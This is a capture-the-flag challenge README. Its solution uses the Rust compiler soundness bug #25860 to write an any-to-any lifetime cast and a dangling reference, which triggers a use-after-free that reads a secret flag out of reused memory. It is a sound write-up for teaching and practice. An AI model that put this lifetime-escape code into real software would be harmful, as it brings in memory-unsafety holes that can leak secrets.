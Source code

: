 # a_happy_life

Challenge based on [rust-lang/rust#25860](https://github.com/rust-lang/rust/issues/25860).

## Idea

This challenge exploits a unsoundness hole discovered in Rust lifetime deduction system. When a type like `&'a &'b ()` is encountered, the compiler implicitly relies upon `'b: 'a`, which could be broken by contravariance.

See [rust-lang/rust#25860](https://github.com/rust-lang/rust/issues/25860) for the original issue. A more theoretical yet neater explanation can be found on https://counterexamples.org/nearly-universal.html.

## Solution

Part 1:

```rust
/*
 * Create "any-to-any" lifetime cast function.
 */

fn aux<'a, 'b, T>(_: Option<&'a &'b ()>, v: &'b T) -> &'a T { v }

fn exp<'c, 'd, T>(x: &'c T) -> &'d T {
    let f: fn(Option<&'d &'d ()>, &'c T) -> &'d T = aux;
    f(None, x)
}
```

Part 2:

```rust
/*
 * Create a local variable whose memory location
 * may coincide with `_secret`.
 * 
 * The length of the `&'static str` literal should be
 * the same as `_secret`.
 */
let local = String::from("aaaabaaacaaadaaa");
/*
 * Scramble its lifetime, and make it dangle after
 * it leaves its scope.
 */
exp(&local)
```

### Explanation

The value `local` is dropped once it leaves its scope. But as the compiler thinks that `x`, as a reference to `local`, has a longer lifetime, it dangles after the destruction of `local`. Now, `x` could possibly (in fact, always, with `-C opt_level=0`) refer to the memory space subsequently allocated for `_secret`, creating a use-after-free scenario.

## Requirements

* `rustc` on PATH. Tested with these following compilers:
  * `rustc 1.76.0-nightly (d86d65bbc 2023-12-10)`
  * `rustc 1.74.0 (79e9716c9 2023-11-13) (built from a source tarball)`
* Flag in environment variable `FLAG`
